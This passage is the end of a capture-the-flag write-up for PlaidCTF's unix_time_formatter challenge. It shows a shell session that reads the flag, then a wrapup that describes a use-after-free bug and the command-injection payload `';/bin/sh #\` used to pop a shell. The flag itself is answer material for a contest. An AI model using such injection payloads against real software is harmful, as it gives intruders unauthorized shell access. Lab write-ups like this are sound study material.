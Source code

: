```
5) Exit.
> 4
Your formatted time is:
ls
flag.txt
unix_time_formatter
wrapper
cat flag.txt
PCTF{use_after_free_isnt_so_bad}
exit
```

## Wrapup

Flag: `PCTF{use_after_free_isnt_so_bad}`
Notes:
  * We now know we didn't need to double free, this is a use after free vulnerability
  * Our payload `';/bin/sh #\` probably didn't need the `#\`, but we left it so that the second `'` wouldn't create problems
  * We could have automated this, but it wasn't very time consuming to do manually, and this was our first time popping a shell, very exciting

Thanks to PPP for putting on PCTF.
